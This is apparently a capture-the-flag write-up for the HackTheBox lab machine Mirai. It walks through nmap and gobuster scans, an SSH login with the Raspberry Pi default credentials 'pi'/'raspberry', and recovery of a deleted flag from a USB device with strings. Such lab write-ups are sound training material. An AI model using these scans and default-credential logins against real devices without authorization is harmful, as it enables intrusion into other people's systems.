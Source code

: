 ```yaml
---
layout: post
title: Mirai (10.10.10.48) Writeup
description: >
  Hackthebox Mirai Writeup
image: /assets/img/mirai.png
noindex: true
---
```


First we start with an nmap scan.

```
# nmap -sC -sV -T4 -p- 10.10.10.48
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-17 20:17 EDT
Nmap scan report for 10.10.10.48
Host is up (0.056s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1315/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.24 seconds
```
So there are a few ports open but we want port 80. Initially when you navigate to <b>http://10.10.10.48</b> you get nothing but a blank screen. Seeing this, I decided to run a gobuster
```
# gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/d
irbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2019/09/17 20:25:10 Starting gobuster
===============================================================
/admin (Status: 301)
```
Only found one directory. If you go to that page you will be greated with the Pi-Hole Admin Console. This is basically an Ad Blocker running on a Raspberry Pi

![dashboard.png](../../resources/a33a172a9d7f42a7acee5da238d2ba54.png)

I didn't find much more on the webpage. Now my next idea was to try SSH. I no knew that is was running Raspian which has default credentials of user <b>pi</b> pass <b>raspberry</b>.

```
# ssh pi@10.10.10.48
pi@10.10.10.48's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 18 00:37:37 2019 from 10.10.14.21

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```
And we are in. We can grab the user flag now located at <b>/home/pi/Desktop</b>
```
pi@raspberrypi:~ $ ls Desktop/
Plex  user.txt
```
Now for root. If we run <b>sudo -l</b> we can see that we have full sudo privileges. Problem is when we try to read the root flag we get this message
```
pi@raspberrypi:~ $ sudo cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```
Looks like we are not done just yet. So the message hints at a USB. If you run <b>lsblk</b> you will see that there is a usb mount at <b>/media/usbstick</b>
```
# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```
If you <b>cd</b> in to directory you will see a <b>damnit.txt</b> file. If you read that you will get another message that the root flag was accidentally deleted.
```
# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
The message basically tells us that the root flag is still on the USB just hidden. To find the root flag just use the <b>strings</b> command against <b>/dev/sdb</b> since thats the actual USB
```
# sudo strings /dev/sdb
<output omitted>
root.txt
damnit.txt
>r &
3d3e483143ff12e**************
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
<br><br><br>
